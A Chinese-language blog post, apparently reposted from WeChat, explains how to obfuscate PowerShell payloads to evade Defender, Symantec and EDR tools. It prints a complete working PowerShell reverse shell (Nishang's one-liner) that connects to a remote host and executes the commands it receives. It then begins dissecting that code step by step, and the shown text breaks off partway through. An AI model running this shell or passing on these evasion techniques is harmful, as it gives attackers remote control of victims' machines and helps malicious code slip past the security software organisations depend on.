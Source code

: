 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/bxxLtYAsCDTY_QImlhkaTQ)

[![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfdFx7R9FpawK77W0zPoUd00PDNnybBHvlxMYrWia3ElQ7uibnUCk6rUjY2Ee73DY2U6uFul3LDO9Vpw/640?wx_fmt=png)](http://mp.weixin.qq.com/s?__biz=MzI5MDQ2NjExOQ==&mid=2247494461&idx=1&sn=2c4d86a41041df8970eb58b8d6e4be4f&chksm=ec1ddb15db6a5203313fdda2545255d801111c1a10475bdedb425b0017417c63cad6b1ab0a07&scene=21#wechat_redirect)

这篇文章将是关于通过 PowerShell 混淆来规避大多数 AV。这不是什么新鲜事，但很多人问我如何真正隐藏，或者如何混淆现有的有效载荷或 PowerShell 的反向外壳，这些负载已经可以检测到。  

因此，我决定采用一个已知的 PowerShell 反向外壳，该外壳被 Defender 和赛门铁克端点保护归类为恶意的，因为这两个是大多数组织依赖的一些常见 AV），我会混淆它们，使其无法检测到。另请注意，这种混淆不仅适用于有效载荷，而且您可以使用以下技术混淆现有工具，如 PowerSploit、PowerView 来规避 AV 和 EDR。这就是 PowerShell 的美。

有效载荷
----

我将使用以下有效载荷进行从这里下载：

> https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1

```
$client = New-Object System.Net.Sockets.TCPClient('192.168.56.1',8080);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

现在，如果您在端口 8080 上启动 netcat 监听器，并在启用 Win Defender 或任何其他 AV 的情况下将上述代码输入 PowerShell，它将被标记为恶意代码，如下图所示。  

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfdPfUrbQvOKmr2UY5IiakdjMJiaiaMmQ6sejwBY0gkLk8zxwvdbT0kkP3pI16bkGR87rmqOSu1OUicHKg/640?wx_fmt=png)

检测到恶意的 PowerShell 有效负载

现在，我们的任务是确保这个有效载荷不会被标记。我们先把上面的有效载荷逐块剖析，了解代码。

1、在所需的主机 / 端口上创建一个 TCP 套接字。

```
$client = New-Object System.Net.Sockets.TCPClient('192.168.56.1',8080)
```

2、在上述套接字上创建一个流进行输入和输出。  

```
$stream = $client.GetStream()
```

3、上述流将用于将每个 ASCII/UNICODE 字符转换为可以通过网络发送的字节。

```
[byte[]]$bytes = 0..65535|%{0}
```

4、创建一个循环，为通过网络发送的每个输入接收或输出进行连续读写。虽然收到的字节不等于零，但请通过套接字连续读取，以便从服务器输入。

```
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){ ... }
```
